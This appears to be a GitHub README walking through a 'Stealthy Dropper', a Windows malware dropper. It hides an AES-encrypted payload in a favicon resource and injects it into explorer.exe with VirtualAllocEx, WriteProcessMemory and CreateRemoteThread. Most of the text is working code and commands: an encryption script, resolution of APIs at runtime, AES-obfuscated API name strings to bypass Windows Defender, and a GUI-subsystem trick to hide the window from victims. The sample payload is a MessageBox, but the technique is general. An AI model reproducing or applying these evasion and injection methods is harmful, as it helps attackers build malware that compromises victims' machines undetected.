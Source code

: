 # Design

From a high-level point of view, our dropper (the main function) does the following things in order:

- **Step 1: Extract payload from resource section.**
	- Here we use the `FindResource()`, `LoadResource()` and `LockResource()` functions.
- **Step 2: Allocate some memory buffer for payload.**
	- Here we use the `VirtualAlloc()` function.
- **Step 3: Copy payload to new memory buffer.**
	- This is just a single function call `RtlMoveMemory`.
- **Step 4: AES-decrypt the payload.**
	- This is just a single function call `AESDecrypt()`.
- **Step 5: Inject the payload to explorer.exe.**
	- This behavior will be flagged by Windows Defender, so we have to implement AV evasion features.

# Payload choice

This Dropper is not weaponized. The payload is just a MessageBox shellcode.

# AES Encryption

For convenience, we write a Python script for AES encryption:

```python
# Payload encryption with AES
# 
# author: ret2basic

import sys
from Crypto.Cipher import AES
from os import urandom
import hashlib

KEY = urandom(16)

def pad(s):
	return s + (AES.block_size - len(s) % AES.block_size) * chr(AES.block_size - len(s) % AES.block_size)

def aesenc(plaintext, key):

	k = hashlib.sha256(key).digest()
	iv = 16 * '\x00'
	plaintext = pad(plaintext)
	cipher = AES.new(k, AES.MODE_CBC, iv)

	return cipher.encrypt(bytes(plaintext))


try:
    plaintext = open(sys.argv[1], "rb").read()
except:
    print("File argument needed! %s <raw payload file>" % sys.argv[0])
    sys.exit()

ciphertext = aesenc(plaintext, KEY)

with open('favicon.ico', 'wb') as f:
    f.write(ciphertext)

print('AESkey[] = { 0x' + ', 0x'.join(hex(ord(x))[2:] for x in KEY) + ' };')
# print('payload[] = { 0x' + ', 0x'.join(hex(ord(x))[2:] for x in ciphertext) + ' };')
```

But why writing the output to `favicon.ico`? We will be explaining it in the next section.

# Storing payload in .rsrc

Typically there are three ways of storing payload:

- `.text` -> Define a payload variable in the main function.
- `.data` -> Define a payload variable as a global variable, that is, outside the main function.
- `.rsrc` -> Store the payload in a "resource" such as a favicon, then compile the exploit code and the source together. The payload can be extracted from the `.rsrc` section.

In "Stealthy Dropper", we will be using the third method. First, we **AES-encrypt** the MessageBox payload `msgbox64.bin` and store the output in `favicon.ico`, which is a resource:

```powershell
python.exe aesencrypt.py msgbox64.bin
```

Copy the key and paste it into the `char key[]` global variable in `implant.cpp`:

```cpp
char key[] = { 0x5b, 0x6f, 0x5d, 0x5, 0x6a, 0x10, 0xdb, 0xc9, 0xed, 0x41, 0xac, 0x1a, 0x73, 0xea, 0x82, 0xba };
```

# Bypassing Windows Defender

In the `Inject()` function, we need the following function calls from kernel32.dll:

- `VirtualAllocEx()`
- `WriteProcessMemory()`
- `CreateRemoteThread()`

If we call these functions directly, Windows Defender is going to flag it. To bypass it, we use two techniques:

- **Function obfuscation**
- **String obfuscation**

## Function obfuscation

If we call a function directly, for example, `VirtualAllocEx()`, then the process will grab it from the DLL, in this case kernel32.dll. This behavior can be flagged by AV easily.

To bypass this, we can use another way of calling function from DLL:

```cpp
pVirtualAllocEx = GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAllocEx");
```

Here `pVirtualAllocEx` is a pointer. Since the compiler does not know what`pVirtualAllocEx` is, we should declare it in `implant.cpp`:

```cpp
LPVOID (WINAPI * pVirtualAllocEx)(
    HANDLE hProcess,
    LPVOID lpAddress,
    SIZE_T dwSize,
    DWORD  flAllocationType,
    DWORD  flProtect
);
```

This declaration is obtained from MSDN:

https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex

Do the same thing to  `WriteProcessMemory()` and `CreateRemoteThread()`.

## String obfuscation

Recall the following code we wrote in "function obfuscation" section:

```cpp
pVirtualAllocEx = GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAllocEx");
```

If we write code like this, the string "VirtualAllocEx" will present in the executable after compilation. This behavior can be flagged by AV easily since AV does static analysis on executables.

To bypass it, we obfuscate the string "VirtualAllocEx" with AES. Basically we are going to AES-encrypt this string with `aesencrypt.py`, copy and paste the output to `implant.cpp` and implement AES-decrypt functionalities in `implant.cpp`.

Since we will be using the AES key for multiple times, we can just update the script `aesencrypt.py` and use the hardcoded key:

```python
# KEY = urandom(16) <- this is only used once to generate the AES key
KEY = b"\x5b\x6f\x5d\x05\x6a\x10\xdb\xc9\xed\x41\xac\x1a\x73\xea\x82\xba"
```

Also we need to add a `printC` function that prints the output in C format:

```python
def printC(ciphertext):
	print('{ 0x' + ', 0x'.join(hex(ord(x))[2:] for x in ciphertext) + ' };')
```

Run the script `aesencrypt.py` interactively, within the command prompt:

```powershell
python.exe -i aesencrypt.py
```

AES-encrypt the string "VirtualAllocEx" with the AES key. :

```python
>>> printC(aesenc("VirtualAllocEx" + b"\x00", KEY))

{ 0xe5, 0x79, 0xbd, 0xa0, 0x1d, 0xfe, 0x24, 0x80, 0x40, 0x7a, 0xb7, 0xa2, 0x3a, 0x86, 0x4, 0x8b };
```

Remember that we have to append a **null byte** to the end of "VirtualAllocEx" since it will be decrypted in C later. In `implant.cpp`, we create a variable `unsigned char sVirtualAllocEx[]` to hold this encrypted data:

```cpp
unsigned char sVirtualAllocEx[] = { 0xe5, 0x79, 0xbd, 0xa0, 0x1d, 0xfe, 0x24, 0x80, 0x40, 0x7a, 0xb7, 0xa2, 0x3a, 0x86, 0x4, 0x8b };
```

Do the same thing to  `WriteProcessMemory()` and `CreateRemoteThread()`:

```cpp
unsigned char sWriteProcessMemory[] = { 0x63, 0xb1, 0x7d, 0x9b, 0x8d, 0x44, 0x88, 0x26, 0x16, 0xb4, 0xba, 0xa6, 0x5b, 0xf9, 0x34, 0x5b, 0xe5, 0x47, 0x95, 0x75, 0x98, 0xe1, 0xe1, 0x5c, 0x8d, 0xe5, 0xc7, 0x7f, 0x8b, 0x1a, 0xec, 0x40 };
unsigned char sCreateRemoteThread[] =  { 0x6d, 0x34, 0x17, 0xf, 0xca, 0x52, 0xe7, 0x54, 0x8d, 0xd3, 0xb, 0xc5, 0x5d, 0x41, 0x53, 0xf9, 0x3b, 0x59, 0x1a, 0xa0, 0xd, 0x61, 0xb0, 0x34, 0x4a, 0x5, 0x21, 0xc5, 0xd, 0x4c, 0xc7, 0x42 };
```

Right after this block of code, we add three `AESDecrypt` function calls to decrypt the encrypted payloads back to the original form:

```cpp
AESDecrypt((char *) sVirtualAllocEx, sizeof(sVirtualAllocEx), key, sizeof(key));
AESDecrypt((char *) sWriteProcessMemory, sizeof(sWriteProcessMemory), key, sizeof(key));
AESDecrypt((char *) sCreateRemoteThread, sizeof(sCreateRemoteThread), key, sizeof(key));
```

Use this technique to obfuscate "kernel32.dll" as well.

# GUI Trick

If we compile `implant.cpp` as a console program, there will a blinking command prompt window appearing on victim's desktop when launching. It is bad OPSEC.

Instead, if we compile `implant.cpp` as a GUI program, then this will not be an issue anymore. We just need to do two things:

1. In `implant.cpp`, change the main function `int main()` to `int WINAPI WinMain()`.
2. In `compile.bat`, use `/SUBSYSTEM:WINDOWS` instead of `/SUBSYSTEM:CONSOLE`.
